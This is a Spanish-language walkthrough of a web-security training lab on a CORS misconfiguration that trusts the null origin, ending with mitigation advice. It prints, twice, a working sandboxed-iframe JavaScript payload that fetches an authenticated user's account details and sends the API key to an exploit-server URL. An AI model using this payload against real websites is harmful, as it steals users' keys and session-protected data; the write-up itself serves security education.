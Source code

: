 # Lab: CORS vulnerability with trusted null origin

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con una aplicación de compras online:
![image](https://github.com/user-attachments/assets/91903113-dba9-47f7-946f-b978688cbf98)

Sabemos que el laboratorio tiene una configuración CORS insegura que confía en origin null, tenemos que crear un script que nos devuelva la API key del administrador, por lo que tenemos que encontrar un endpoint que nos devuelva nuestra API key.

Procedemos a autenticarnos con nuestras credenciales `wiener:peter`:
![image](https://github.com/user-attachments/assets/f627e5ec-a806-4a02-b465-9dad19c47a77)

Dashboard del usuario:
![image](https://github.com/user-attachments/assets/36df1afa-6c74-4564-9b8e-53d8dbcecfd7)

Endpoint `/accountDetails`:
![image](https://github.com/user-attachments/assets/b2f8f53b-f33b-4c18-a1a2-ccd00dc6370a)

Hasta ahora este laboratorio es muy similar al anterior, este último endpoint nos devuelve un montón de información sensible relativa al usuario, incluyendo su API key.

El servidor nos devuelve la cabecera `Access-Control-Allow-Credentials: true`, por lo que sabemos que está haciendo uso del protocolo `CORS`. Enviamos esta petición al `Repeater`:
![image](https://github.com/user-attachments/assets/dad8d53b-62f8-4f7e-993a-4ab78cd18049)


Por lo que procedemos a testear la configuración del protocolo para validar si hay vulnerabilidad.

Inyectamos el header `Origin` para validar si el servidor acepta orígenes arbitrarios:
![image](https://github.com/user-attachments/assets/2efabe9f-16d0-40e6-ae12-e94228aed593)

No nos refleja el header por lo que en este laboratorio el servidor no acepta orígenes arbitrarios.

Procedemos a testear si el servidor acepta la cabecera con el valor `Origin: null`:
![image](https://github.com/user-attachments/assets/7b84f93f-c845-49ac-b50f-2c6813ce560f)

Recibimos la cabecera `Access-Control-Allow-Origin: null` como respuesta del servidor.

El servidor está aceptando específicamente el origen null, lo cual podría permitir a un atacante robar datos sensibles desde un origen sin dominio definido.

Este es el caso ideal para explotar usando el `iframe` con `data: URI` que analizamos antes en la teoría:
```html
<html>
  <body>
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
      <script>
        var req = new XMLHttpRequest();
        req.onload = function() {
          location='https://exploit-0a95009f0337aa9e807d02b401d9008e.exploit-server.net/exploit/log?key=' + encodeURIComponent(this.responseText);
        };
        req.open('GET', 'https://0ae000f70321aaea801903e8001e00fd.web-security-academy.net/accountDetails', true);
        req.withCredentials = true;
        req.send();
      </script>
    ">
    </iframe>
  </body>
</html>
```

## 🔧 Análisis del exploit CORS usando `<iframe srcdoc>`

Este exploit está diseñado para aprovechar una configuración vulnerable de CORS que acepta `Origin: null` y permite credenciales. Utiliza un iframe con `sandbox` y `srcdoc` para ejecutar un script desde un origen no confiable.

---

### ✨ Código completo del exploit

```html
<html>
  <body>
    <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
      <script>
        var req = new XMLHttpRequest();
        req.onload = function() {
          location='https://exploit-0a95009f0337aa9e807d02b401d9008e.exploit-server.net/exploit/log?key=' + encodeURIComponent(this.responseText);
        };
        req.open('GET', 'https://0ae000f70321aaea801903e8001e00fd.web-security-academy.net/accountDetails', true);
        req.withCredentials = true;
        req.send();
      <\/script>
    ">
    </iframe>
  </body>
</html>
```

---

### 🔎 Desglose del funcionamiento

#### 1. `<iframe ...>`

Se crea un iframe aislado del documento principal, pero con permisos limitados especificados por `sandbox`.

#### 2. `sandbox="allow-scripts allow-top-navigation allow-forms"`

Permite:

* `allow-scripts`: ejecutar código JavaScript dentro del iframe.
* `allow-top-navigation`: redireccionar la página superior mediante `location=`.
* `allow-forms`: enviar formularios (aunque no es esencial para este exploit).

El sandbox impide que el iframe herede el origen del documento principal, por lo que el `Origin` de las solicitudes realizadas será `null`.

#### 3. `srcdoc="..."`

* Incrusta directamente contenido HTML dentro del iframe (una mini página con su propio DOM).
* Es más confiable que `src="data:text/html,..."` y mantiene el `Origin: null`.

#### 4. Script embebido

* Realiza una solicitud con `XMLHttpRequest` al endpoint vulnerable (`/accountDetails`).
* Usa `withCredentials = true` para incluir cookies del usuario autenticado.
* Al recibir la respuesta (la API key del administrador), redirecciona el navegador hacia el exploit server, incluyendo los datos robados como parámetro.

```javascript
location='https://exploit-server/log?key=' + encodeURIComponent(this.responseText);
```

---

### ⚠️ Condiciones necesarias para que funcione

* El servidor vulnerable debe aceptar:

  ```http
  Access-Control-Allow-Origin: null
  Access-Control-Allow-Credentials: true
  ```
* El navegador debe permitir iframes con `srcdoc` (lo hacen todos los modernos).
* El exploit debe ejecutarse desde un origen externo (como el exploit server de PortSwigger).

---

Simulamos levantar el servidor con nuestra página maliciosa haciendo click en `Go te exploit server` y pegando nuestro script en el campo `Body`. Luego hacemos click en `Deliver exploit to victim` para simular que la víctima accede a nuestro servidor y su navegador ejecuta el script:
![image](https://github.com/user-attachments/assets/c3a69524-42a6-440d-9282-979749f56828)


Accedemos a nuestros logs mediante el botón `Access log`:
![image](https://github.com/user-attachments/assets/4c19243c-303f-4f4f-b204-cc2b07b952c6)

Obtenemos la API key del usuario `administrator`:
```http
JUxIIWqGOQxTgD7euX8KWwilYehFwZkT
```

Procedemos a cargar la API key y resolver el laboratorio:
![image](https://github.com/user-attachments/assets/1195f74d-e44b-4ffe-b54e-aae0fe468ced)

---

## ✅ Conclusiones

Este laboratorio expone cómo una configuración insegura de CORS que acepta el origen especial `null` puede ser explotada para robar información sensible de usuarios autenticados.  
El uso de un `iframe` con `srcdoc` permite generar solicitudes con `Origin: null`, y si el servidor responde con `Access-Control-Allow-Origin: null` y `Access-Control-Allow-Credentials: true`, el navegador entrega las cookies de sesión del usuario al atacante.

---

## 🛡️ Recomendaciones

Para mitigar este tipo de vulnerabilidades:

- **Nunca permitir `Access-Control-Allow-Origin: null`** a menos que haya una necesidad muy específica y segura.
- Validar explícitamente el origen en el backend usando una lista blanca de orígenes confiables.
- Evitar el uso de `Access-Control-Allow-Credentials: true` si no es estrictamente necesario.
- Aplicar políticas de seguridad en el navegador como `SameSite` en cookies y `Content-Security-Policy` restrictiva.

---

## 📚 Lecciones aprendidas

- El origen `null` no representa un dominio arbitrario, sino que se genera en contextos como `srcdoc`, `file://`, `data:`, o `sandbox` sin `allow-same-origin`.
- Los ataques CORS no dependen de vulnerabilidades del frontend, sino de **configuraciones inseguras en el backend**.
- El uso de técnicas como `iframe + sandbox + srcdoc` permite ejecutar scripts desde orígenes no confiables de forma completamente funcional en navegadores modernos.
- Las pruebas de CORS deben incluir escenarios menos obvios como `Origin: null`, no solo reflejo directo de orígenes arbitrarios.

---


